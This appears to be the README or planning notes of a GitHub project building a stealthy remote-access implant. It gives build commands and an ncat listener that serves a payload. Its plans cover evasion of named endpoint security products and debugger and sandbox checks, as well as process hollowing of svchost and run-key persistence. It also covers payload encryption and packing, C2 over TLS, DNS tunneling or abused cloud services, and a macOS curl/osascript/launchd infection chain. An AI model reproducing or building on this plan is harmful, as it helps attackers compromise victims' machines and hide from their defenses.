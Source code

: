 # 267k
tcp stub

### Commands
- g++ stub.cpp -o stub
- x86_64-w64-mingw32-g++ stub_win.cpp -o stub_win.exe -lws2_32
- server: ncat -lvp 4444 --send-only < payload.bin
- client: run executable

### TODO (client)
- rev https stub (use logic from tcp stub)
- check for debugger
  - https://learn.microsoft.com/en-us/windows/win32/debug/debugging-functions
  - https://learn.microsoft.com/en-us/windows/win32/api/debugapi/nf-debugapi-isdebuggerpresent
- use a combination of manual api resolution and direct system calls (direct system calls are stealthier)

### Features (TODO)
- sleep obfuscation

### TODO (server)
- logic written in golang
- gui written in c++ and qt gui ?

### Workflow
dropper/installer -> stager -> beacon/agent (payload) -> profit? 
stub -> payload (establish persistence) -> full install -> profit? 

### stub
- avoid installation / when stub is being transfer to the victim
- avoid detection while idle but installed on victim machine
- avoid detection while stub is executing / alive
- avoid detection after stub is done... clean up or find somewhere to hide?

### Counter Measures
- Ivanti Device & Application Control
- Symantec Endpoint Protection
- RTNotify?
- /////
- Zscaler
- Secret Double Octopus
- BeyondTrust Privilege Management / Avecto Privilege Guard Client
- Forcepoint DLP Endpoint
- Boldon James File Classifier
- Cisco Secure Client

### Counter-Counter Measures
- https://www.cobaltstrike.com/
- dll side-loading
- reflective dll injection
- dll as a payload container
- com / activeX dll abuse
- hide code in different/unusal sections of the PE
- payload/stub encryption (xor)
-   AES-GCM (AES in Galois/Counter Mode)
-   ChaCha20-Poly1305 — faster on devices without AES hardware acceleration
-   -
-   Simple obfuscation for quick hacks: XOR, rolling-XOR, trivial byte transform
-   Packers / crypters: UPX (both legitimate use and abused), commercial crypters and custom packers.
-   Standard symmetric crypto for serious samples: AES (often AES-128 or AES-256), frequently in authenticated modes (GCM is common in newer tooling), or ChaCha20-Poly1305 on toolchains that favor it.
-   Custom multi-stage formats: compressed → encrypted → encoded blobs inside .rsrc or custom sections; small loader/stub in .text unpacks/decrypts in memory.
-   Polymorphism/metamorphism:
- c2/network encryption (https and custom tsl wrappers)
-   TLS 1.3
-   Mutual TLS
-   Use HTTP(S) or WebSockets over TLS if you need easy firewall traversal and visibility via HTTP semantics.
-   Ephemeral key exchange (ECDHE) for Perfect Forward Secrecy (PFS).
-   -
-   HTTPS / TLS (very common): attackers prefer HTTPS because it blends with normal web traffic. Many C2 frameworks use TLS 1.2 or TLS 1.3.
-   Mutual TLS (mTLS) occasionally: more advanced operators use mTLS for client auth (makes detection/control harder).
-   WebSockets over TLS for persistent, bidirectional channels that look like normal web apps.
-   DoH / DoT / DNS tunneling when environments restrict normal web egress. DNS tunneling tools (Iodine, DNScat2 variants) or DoH (DNS over HTTPS) are used for stealthy beacons and tiny data exfil.
-   Custom encrypted TCP/UDP channels: AES/ChaCha20 used over raw sockets when stealth beyond TLS is desired.
-   Abuse of legitimate cloud/web services: GitHub Gists, Google Drive, Slack, Discord, cloud functions, or pastebins as C2 or staging; traffic to these looks normal and is hard to block broadly.
- metamorphic engine

### Windows
- workflow
-   make structure for command parsing on the client to server and retrieve commands sent from the server to the client, as well as parse them and execute the given plugin associated with the command
-   connect to our server on a given port. collect information about the system and encrpyt it. then send it to our server. establish a foothold thread for communication. check if system is a vm machine or sandbox, if it is then don't unencrypt/unpack self. also don't establish persistence, it should actually probably delete itself entirely. at this point, nothing should be written to the disk and everything should be running in memory (ram).
-   spawn zombie process svchost.exe or dllhost.exe. CreateProcessInternal, CREATE_SUSPENDED, SuspendThread
-   %appdata\\Microsoft\\453543.dll. rundll32.exe - execute our dll. rundll32.exe as a runkey.
-   it gets on system. 1. check if it's already running. 2. move to %appdata%. 3. setup persistence.
-   takes the form of a .dll file

### MacOS
- curl, osascript, launchd
- workflow:
-   Delivery → script (AppleScript/Bash/Python)
-   Download → curl or scripting network
-   Execution → script or small Mach-O payload
-   Persistence → launchd agent, cron, login item
-   Stealth → hide files, mimic system apps, automate via osascript
